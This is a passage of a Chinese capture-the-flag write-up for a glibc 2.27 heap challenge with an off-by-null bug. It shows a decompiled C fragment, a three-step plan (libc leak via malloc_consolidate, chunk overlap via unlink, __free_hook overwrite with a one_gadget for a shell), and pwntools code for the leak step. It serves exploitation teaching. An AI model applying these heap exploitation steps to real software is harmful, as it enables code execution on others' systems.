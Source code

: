 ```C
        v6 = (__int64)&v5[-ptr + 1];
      }
      while ( v4 != v3 );
      v4 = (_BYTE *)(ptr + v6);
    }
    else
    {
      v4 = (_BYTE *)ptr_list[v0];
    }
LABEL_8:
    *v4 = 0;
  }
  return __readfsqword(0x28u) ^ v9;
}
```

### 思路概述

该题目libc版本为2.27，且仅有off bu null这一个漏洞。



第一步，填充完毕tcache，将构建好的chunk放置于fastbin，再利用scanf输入长字符串触发malloc_consolidate ，将fastbin整理到unsortedbin中，进行libc_base的泄露。



第二步，利用off by null漏洞修改chunk size 的prev_inuse=0，

结合伪造 header 、offbynull 向后unlink制造堆重叠。



第三步，常规攻击打'__free_hook'，传入onegadget去getshell。



#### 第一步实操

##### 1.1

```Python
#unsortedbin泄露libc地址
for i in range(8):
    add(i,0x78)

add(8,0x58)#后面offbynull构造0x110
add(9,0x20)#后面offbynull构造0x110
for i in list(range(8)):#tcache填充
    delete(i)
p.sendlineafter("choice: ",'1'*0x7000)#fastbin 2 unsortedbin 触发malloc_consolidate 
for i in list(range(7))[::-1]:
    add(i,0x78)
add(7,0x78)
show(7)
#gdb.attach(p)
p.recvuntil("Content: ")
main_arean_208 = u64(p.recv(6).ljust(8,'\x00'))
log.info("main_arean_208:"+hex(main_arean_208))
libc_base = main_arean_208 - 208 - (0x7ffff7dcdc40-0x7ffff79e2000)
log.info("libc_base:"+hex(libc_base))

```
